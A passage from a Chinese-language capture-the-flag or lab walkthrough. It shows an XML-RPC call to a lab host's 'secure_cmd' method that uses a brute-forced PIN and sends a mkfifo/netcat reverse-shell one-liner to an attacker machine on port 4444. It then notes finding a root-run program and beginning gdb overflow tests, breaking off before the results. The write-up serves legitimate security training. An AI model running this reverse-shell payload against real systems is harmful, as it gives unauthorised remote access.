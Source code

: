 既然得到了密码，就可以在命令这个参数中传递一个反弹 shell，加上爆破的密码，就能够成功得到 shell

测试代码 3：

```bash
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    proxy.secure_cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f",6238)
```

kali 开启对 4444 端口的监听，获得 shell，用户为 socnet

[![](assets/1699406763-1ac35eba6d88cd5b1e248660420c8011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104213-41ddaae8-7d17-1.png)

目录下存在一个拥有 root 权限执行的程序 add\_record

[![](assets/1699406763-74d43c824038b5b24ff8e6ae232f5191.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104231-4c691966-7d17-1.png)

执行该程序，存在 5 个输入，开启 gdb 调试，依次测试每个输入的位置是否存在溢出

对第一个输入进行测试，结果如下，程序运行终止：
